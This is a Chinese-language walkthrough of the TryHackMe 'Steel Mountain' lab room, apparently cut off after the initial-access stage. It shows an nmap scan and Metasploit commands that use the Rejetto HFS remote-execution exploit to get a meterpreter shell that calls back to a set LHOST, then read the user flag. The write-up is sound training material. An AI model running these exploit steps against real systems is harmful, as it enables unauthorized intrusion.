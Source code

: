 # THM-Steel Mountain-练习

本文相关的TryHackMe实验房间链接：https://tryhackme.com/room/steelmountain

## 简介

目标机器不响应 ping (ICMP) ，尝试使用 metasploit 获得目标机器（Windows系统）初始访问权限，再使用 powershell脚本进行Windows 权限提升枚举，最后尝试在Windows机器上提升权限到管理员。

启动目标机器，直接使用目标ip地址访问目标站点，查看网页源码，获取第一小题答案：

![image-20221013164338875](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013164338875.png)

![image-20221013164417205](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013164417205.png)

**答题卡**

![image-20221013164454703](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013164454703.png)

## 获取目标机的初始访问权限

使用nmap进行端口扫描操作：

```shell
nmap -Pn -sV -sC 10.10.42.153 
```

![image-20221013165357682](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013165357682.png)

除了默认的80端口之外，目标站点还开放了8080端口提供http服务，查看8080端口的webserver页面：

![image-20221013171732269](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013171732269.png)

![image-20221013171332357](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013171332357.png)

使用搜索引擎，找到相关漏洞信息，查看CVE编号：

> 通过漏洞库查询cve编号：https://www.exploit-db.com/

![image-20221013170945115](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013170945115.png)

![image-20221013172037737](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013172037737.png)

接下来，我们使用 Metasploit 利用和以上cve编号相对应的漏洞，获得一个初始 shell 并查看user.txt内容:

```shell
msfconsole -q             #跳过提示语打开msf
search Rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.10.42.153 
set RPORT 8080
set LHOST 10.14.30.69     #当使用OpenVPN连接到TryHackMe内网时，需要设置该选项为tun0地址
exploit                   #或者run

shell                     #由meterpreter shell界面进入Windows shell界面
cd C:\Users\bill\Desktop\
dir
more user.txt
```
